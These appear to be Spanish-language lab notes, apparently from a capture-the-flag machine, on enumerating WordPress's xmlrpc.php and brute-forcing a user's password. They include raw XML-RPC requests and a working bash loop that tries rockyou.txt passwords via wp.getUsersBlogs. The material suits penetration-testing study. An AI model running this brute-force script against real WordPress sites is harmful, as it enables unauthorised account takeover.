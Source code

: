 # ENUMERAR XMLRPC + ATAQUES FUERZA BRUTA WORDPRESS
También es posible que podamos enumerar este archivo el cual nos sirve para obtener credenciales de usuarios, ya que se trata de un archivo que permite la comunicación de wordpress y otros sistemas usando php; y si lo buscamos en el navegador vemos que existe pero que sólo tramita peticiones por POST:
![[Pasted image 20230421133400.png]]
Por tanto con curl vamos a enviarle una petición por POST y vemos que sí nos devuelve algo en XML:
![[Pasted image 20230421133532.png]]
Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20230421133725.png]]
Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20230421133752.png]]
```php
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Por tanto pegamos este código en un fichero xml:
![[Pasted image 20230421133907.png]]
Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress:
![[Pasted image 20230421134022.png]]
Y el servidor nos responde con todos los métodos disponibles:
![[Pasted image 20230421134102.png]]
Y si miramos más en la página, vemos que nos muestran como hacer un ataque de fuerza bruta:
![[Pasted image 20230421134340.png]]
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
Y vemos que aquí si ponemos unas credenciales correctas y lo ejecutamos como antes, nos va a funcionar correctamente:
![[Pasted image 20230421134520.png]]
![[Pasted image 20230421134540.png]]
En este punto podríamos hacer un ataque de fuerza bruta, tanto con un script de bash o con la propia herramienta wpscan:
```bash
#!/bin/bash

#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Pasted image 20230421143424.png]]
O también directamente desde la herramienta, lo cual será más rápido:
![[Pasted image 20230421143525.png]]
Y nos la encuentra:
![[Pasted image 20230421143548.png]]
